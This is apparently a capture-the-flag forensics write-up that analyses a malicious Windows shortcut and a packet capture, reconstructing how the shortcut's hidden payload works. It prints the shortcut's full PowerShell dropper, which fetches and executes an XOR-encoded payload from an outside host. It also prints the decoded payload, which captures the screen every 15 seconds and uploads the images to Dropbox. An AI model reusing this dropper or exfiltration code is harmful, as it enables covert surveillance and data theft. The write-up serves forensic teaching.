

# [Hack The Boo 2023](index.md) - Forensics - Trick or Treat

> Another night staying alone at home during Halloween. But someone wanted to play a Halloween game with me. They emailed me the subject "Trick or Treat" and an attachment. When I opened the file, a black screen appeared for a second on my screen. It wasn't so scary; maybe the season is not so spooky after all.

We're provided with a zip file containing a .pcap file and a .lnk file.
Windows Defender does not like the .lnk file very much, so I used a Linux system to better analyze this.

I used `lnkinfo` to better analyze the lnk file. `lnkinfo` can be installed using `sudo apt install liblnk-utils`.

```
$ lnkinfo trick_or_treat.lnk
lnkinfo 20181227

Windows Shortcut information:
        Contains a link target identifier
        Contains a description string
        Contains a working directory string
        Contains a command line arguments string
        Contains an icon location string
        Contains an icon location block

Link information:
        Creation time                   : Not set (0)
        Modification time               : Not set (0)
        Access time                     : Not set (0)
        File size                       : 0 bytes
        Icon index                      : 70
        Show Window value               : 0x00000000
        Hot Key value                   : 0
        File attribute flags            : 0x00000000
        Description                     : Trick or treat
        Working directory               : C:
        Command line arguments          : /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden "$asvods ='';$UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/15.15063','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko');$RandomUserAgent = $UserAgents | Get-Random;$WebClient = New-Object System.Net.WebClient;$WebClient.Headers.Add('User-Agent', $RandomUserAgent);$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com');$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos));Invoke-Command -ScriptBlock ([Scriptblock]::Create($asvods));
        Icon location                   : %SystemRoot%\System32\shell32.dll

Link target identifier:
... many non-important lines not included here...
```

So it looks like the lnk file runs some fairly suspicious code.

The important parts of this code are:

```powershell
$RandomUserAgent = $UserAgents | Get-Random; 
$WebClient = New-Object System.Net.WebClient; 
$WebClient.Headers.Add('User-Agent', $RandomUserAgent); 
$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com'); 
$vurnwos = ''; 
for ($i = 0; $i -le $boddmei.Length - 2; $i = $i + 2) {
        $bodms = $boddmei[$i] + $boddmei[$i + 1]; $decodedChar = [char]([convert]::ToInt16($bodms, 16)); 
        $xoredChar = [char]([byte]($decodedChar) -bxor 0x1d); 
        $vurnwos = $vurnwos + $xoredChar 
}; 
Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos)); 
Invoke-Command -ScriptBlock ([Scriptblock]::Create($asvods));
```

It looks like this is a "dropper" - code that will download the main payload from somewhere else, decode it, and run it.

We've been given a pcap file, so it's likely that we can extract what was downloaded from it, and run it through the powershell code above to decode it (not including the `Invoke-Command` lines of course).

Filtering for `http`, and adding the HTTP "Host" variable as a colum makes it easy to find the single request to `windowsliveupdater.com`, frame number 19596 (and 19628 for the response).


If we right click either of these frames in Wireshark and click __Follow__ - __HTTP Stream__ we can see the entire conversation.



And we find a big encoded blob of some sort:

```
7b68737e697472733d596f726d5f726530486d71727c793d661717465e70797178695f74737974737a353440176d7c6f7c703d35173d3d3d3d17464d7c6f7c707869786f3d35507c73797c69726f643d203d39496f6878313d4b7c7168785b6f72704d746d78717473783d203d39496f6878344017465c71747c6e353f7b3f344017466e696f74737a40394e72686f7e785b7471784d7c697517343d1739596f726d5f72655c7e7e786e6e49727678733d203d3f55495f666e2964424d68706d762c2c2c2c2c2c2c733c3c3c603f17397268696d68695b7471783d203d4e6d717469304d7c69753d394e72686f7e785b7471784d7c69753d3071787c7b1739497c6f7a78695b7471784d7c6975203f32397268696d68695b7471783f17397c6f7a3d203d3a663d3f6d7c69753f273d3f3a3d363d39497c6f7a78695b7471784d7c69753d363d3a3f313d3f707279783f273d3f7c79793f313d3f7c6869726f78737c70783f273d696f6878313d3f706869783f273d7b7c716e783d603a17397c686975726f74677c697472733d203d3f5f787c6f786f3d3f3d363d39596f726d5f72655c7e7e786e6e4972767873173975787c79786f6e3d203d53786a30527f77787e693d3f4e646e697870335e727171787e697472736e335a7873786f747e3359747e697472737c6f6446464e696f74737a4031464e696f74737a40403f173975787c79786f6e335c7979353f5c686975726f74677c697472733f313d397c686975726f74677c6974727334173975787c79786f6e335c7979353f596f726d7f7265305c4d54305c6f7a3f313d397c6f7a34173975787c79786f6e335c7979353f5e7273697873693049646d783f313d3a7c6d6d71747e7c6974727332727e697869306e696f787c703a341754736b727678304f786e695078697572793d30486f743d7569696d6e2732327e72736978736933796f726d7f72657c6d74337e7270322f327b7471786e32686d71727c793d305078697572793d4d726e693d3054735b7471783d394e72686f7e785b7471784d7c69753d3055787c79786f6e3d3975787c79786f6e176017176a75747178352c346617173d3d5c79793049646d783d305c6e6e78707f7164537c70783d4e646e697870334a747379726a6e335b726f706e314e646e69787033596f7c6a74737a17173d3d396e7e6f7878736e3d203d464a747379726a6e335b726f706e334e7e6f7878734027275c71714e7e6f7878736e17173d3d3969726d3d3d3d3d203d35396e7e6f7878736e335f726873796e3349726d3d3d3d3d613d50787c6e686f7830527f77787e693d3050747374706870343350747374706870173d3d3971787b693d3d3d203d35396e7e6f7878736e335f726873796e3351787b693d3d3d613d50787c6e686f7830527f77787e693d3050747374706870343350747374706870173d3d396a747969753d3d203d35396e7e6f7878736e335f726873796e334f747a75693d3d613d50787c6e686f7830527f77787e693d30507c65747068703433507c6574706870173d3d397578747a75693d203d35396e7e6f7878736e335f726873796e335f72696972703d613d50787c6e686f7830527f77787e693d30507c65747068703433507c657470687017173d3d397f726873796e3d3d3d203d46596f7c6a74737a334f787e697c737a71784027275b6f727051494f5f353971787b69313d3969726d313d396a74796975313d397578747a756934173d3d397f706d3d3d3d3d3d3d203d53786a30527f77787e693d3049646d78537c70783d4e646e69787033596f7c6a74737a335f7469707c6d3d305c6f7a687078736951746e693d354674736940397f726873796e336a7479697534313d354674736940397f726873796e337578747a756934173d3d397a6f7c6d75747e6e3d203d46596f7c6a74737a335a6f7c6d75747e6e4027275b6f727054707c7a7835397f706d3417173d3d397a6f7c6d75747e6e335e726d645b6f72704e7e6f78787335397f726873796e3351727e7c69747273313d46596f7c6a74737a334d7274736940272758706d6964313d397f726873796e336e7467783417173d3d397f706d334e7c6b78353f3978736b27484e584f4d4f525b545158415c6d6d597c697c4151727e7c71414978706d413978736b277e72706d6869786f737c7078305e7c6d69686f78336d737a3f34173d3d397a6f7c6d75747e6e3359746e6d726e783534173d3d397f706d3359746e6d726e783534173d3d173d3d6e697c6f69306e7178786d3d304e787e7273796e3d2c28173d3f3978736b27484e584f4d4f525b545158415c6d6d597c697c4151727e7c71414978706d413978736b277e72706d6869786f737c7078305e7c6d69686f78336d737a3f3d613d596f726d5f726530486d71727c791760
```

I would find out later that colleagues were able to get [CyberChef](https://gchq.github.io/CyberChef) to decode this, but I was not able to do this myself. I was able to easily adapt the code found in the .lnk file to decode it using powershell though.

```powershell
$downloaded_encoded_payload = "7b68737e697472733d596f726d5f726530486d71727c793d661717465e70797178695f74737974737a353440176d7c6f7c703d35173d3d3d3d17464d7c6f7c707869786f3d35507c73797c69726f643d203d39496f6878313d4b7c7168785b6f72704d746d78717473783d203d39496f6878344017465c71747c6e353f7b3f344017466e696f74737a40394e72686f7e785b7471784d7c697517343d1739596f726d5f72655c7e7e786e6e49727678733d203d3f55495f666e2964424d68706d762c2c2c2c2c2c2c733c3c3c603f17397268696d68695b7471783d203d4e6d717469304d7c69753d394e72686f7e785b7471784d7c69753d3071787c7b1739497c6f7a78695b7471784d7c6975203f32397268696d68695b7471783f17397c6f7a3d203d3a663d3f6d7c69753f273d3f3a3d363d39497c6f7a78695b7471784d7c69753d363d3a3f313d3f707279783f273d3f7c79793f313d3f7c6869726f78737c70783f273d696f6878313d3f706869783f273d7b7c716e783d603a17397c686975726f74677c697472733d203d3f5f787c6f786f3d3f3d363d39596f726d5f72655c7e7e786e6e4972767873173975787c79786f6e3d203d53786a30527f77787e693d3f4e646e697870335e727171787e697472736e335a7873786f747e3359747e697472737c6f6446464e696f74737a4031464e696f74737a40403f173975787c79786f6e335c7979353f5c686975726f74677c697472733f313d397c686975726f74677c6974727334173975787c79786f6e335c7979353f596f726d7f7265305c4d54305c6f7a3f313d397c6f7a34173975787c79786f6e335c7979353f5e7273697873693049646d783f313d3a7c6d6d71747e7c6974727332727e697869306e696f787c703a341754736b727678304f786e695078697572793d30486f743d7569696d6e2732327e72736978736933796f726d7f72657c6d74337e7270322f327b7471786e32686d71727c793d305078697572793d4d726e693d3054735b7471783d394e72686f7e785b7471784d7c69753d3055787c79786f6e3d3975787c79786f6e176017176a75747178352c346617173d3d5c79793049646d783d305c6e6e78707f7164537c70783d4e646e697870334a747379726a6e335b726f706e314e646e69787033596f7c6a74737a17173d3d396e7e6f7878736e3d203d464a747379726a6e335b726f706e334e7e6f7878734027275c71714e7e6f7878736e17173d3d3969726d3d3d3d3d203d35396e7e6f7878736e335f726873796e3349726d3d3d3d3d613d50787c6e686f7830527f77787e693d3050747374706870343350747374706870173d3d3971787b693d3d3d203d35396e7e6f7878736e335f726873796e3351787b693d3d3d613d50787c6e686f7830527f77787e693d3050747374706870343350747374706870173d3d396a747969753d3d203d35396e7e6f7878736e335f726873796e334f747a75693d3d613d50787c6e686f7830527f77787e693d30507c65747068703433507c6574706870173d3d397578747a75693d203d35396e7e6f7878736e335f726873796e335f72696972703d613d50787c6e686f7830527f77787e693d30507c65747068703433507c657470687017173d3d397f726873796e3d3d3d203d46596f7c6a74737a334f787e697c737a71784027275b6f727051494f5f353971787b69313d3969726d313d396a74796975313d397578747a756934173d3d397f706d3d3d3d3d3d3d203d53786a30527f77787e693d3049646d78537c70783d4e646e69787033596f7c6a74737a335f7469707c6d3d305c6f7a687078736951746e693d354674736940397f726873796e336a7479697534313d354674736940397f726873796e337578747a756934173d3d397a6f7c6d75747e6e3d203d46596f7c6a74737a335a6f7c6d75747e6e4027275b6f727054707c7a7835397f706d3417173d3d397a6f7c6d75747e6e335e726d645b6f72704e7e6f78787335397f726873796e3351727e7c69747273313d46596f7c6a74737a334d7274736940272758706d6964313d397f726873796e336e7467783417173d3d397f706d334e7c6b78353f3978736b27484e584f4d4f525b545158415c6d6d597c697c4151727e7c71414978706d413978736b277e72706d6869786f737c7078305e7c6d69686f78336d737a3f34173d3d397a6f7c6d75747e6e3359746e6d726e783534173d3d397f706d3359746e6d726e783534173d3d173d3d6e697c6f69306e7178786d3d304e787e7273796e3d2c28173d3f3978736b27484e584f4d4f525b545158415c6d6d597c697c4151727e7c71414978706d413978736b277e72706d6869786f737c7078305e7c6d69686f78336d737a3f3d613d596f726d5f726530486d71727c791760"

$decoded_payload = ''; 
for ($i = 0; $i -le $downloaded_encoded_payload.Length - 2; $i = $i + 2) {
        $two_character_block = $downloaded_encoded_payload[$i] + $downloaded_encoded_payload[$i + 1]; 
        $decodedChar = [char]([convert]::ToInt16($two_character_block, 16)); 
        $xoredChar = [char]([byte]($decodedChar) -bxor 0x1d); 
        $decoded_payload = $decoded_payload + $xoredChar 
}; 

write-host $decoded_payload;
```

... being very careful to _not_ include the `Invoke-Command` lines at the bottom.

The decoded payload is as follows:
```powershell
function DropBox-Upload {

[CmdletBinding()]
param (

[Parameter (Mandatory = $True, ValueFromPipeline = $True)]
[Alias("f")]
[string]$SourceFilePath
)
$DropBoxAccessToken = "HTB{s4y_Pumpk1111111n!!!}"
$outputFile = Split-Path $SourceFilePath -leaf
$TargetFilePath="/$outputFile"
$arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
$authorization = "Bearer " + $DropBoxAccessToken
$headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
$headers.Add("Authorization", $authorization)
$headers.Add("Dropbox-API-Arg", $arg)
$headers.Add("Content-Type", 'application/octet-stream')
Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
}

while(1){

  Add-Type -AssemblyName System.Windows.Forms,System.Drawing

  $screens = [Windows.Forms.Screen]::AllScreens

  $top    = ($screens.Bounds.Top    | Measure-Object -Minimum).Minimum
  $left   = ($screens.Bounds.Left   | Measure-Object -Minimum).Minimum
  $width  = ($screens.Bounds.Right  | Measure-Object -Maximum).Maximum
  $height = ($screens.Bounds.Bottom | Measure-Object -Maximum).Maximum

  $bounds   = [Drawing.Rectangle]::FromLTRB($left, $top, $width, $height)
  $bmp      = New-Object -TypeName System.Drawing.Bitmap -ArgumentList ([int]$bounds.width), ([int]$bounds.height)
  $graphics = [Drawing.Graphics]::FromImage($bmp)

  $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size)

  $bmp.Save("$env:USERPROFILE\AppData\Local\Temp\$env:computername-Capture.png")
  $graphics.Dispose()
  $bmp.Dispose()

  start-sleep -Seconds 15
 "$env:USERPROFILE\AppData\Local\Temp\$env:computername-Capture.png" | DropBox-Upload
}
```

And in this code, we can find the flag:

```powershell
$DropBoxAccessToken = "HTB{s4y_Pumpk1111111n!!!}"
```

It looks like this payload takes a screen capture every 15 seconds, then uploads them to a DropBox account.